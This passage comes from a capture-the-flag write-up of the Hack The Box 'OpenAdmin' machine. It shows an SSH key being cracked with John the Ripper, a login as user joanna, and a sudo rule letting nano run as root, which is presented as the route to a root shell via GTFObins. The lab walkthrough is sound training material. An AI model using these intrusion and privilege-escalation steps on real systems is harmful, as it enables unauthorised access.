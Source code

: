 The internal site contains the SSH private key for the joanna user. It's encrypted but I can crack it easily with john the ripper:

![](/assets/images/htb-writeup-openadmin/cracked.png)

```
root@kali:~/htb/openadmin# ssh -i id_rsa joanna@10.10.10.171
Enter passphrase for key 'id_rsa': 
[...]
joanna@openadmin:~$ cat user.txt
c9b2cf07d[...]
```

## Root priv esc

```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

`nano` is running as root, this is our way in. Looking at [GTFObins](https://gtfobins.github.io/gtfobins/nano/), I see an easy way to get a shell as root:
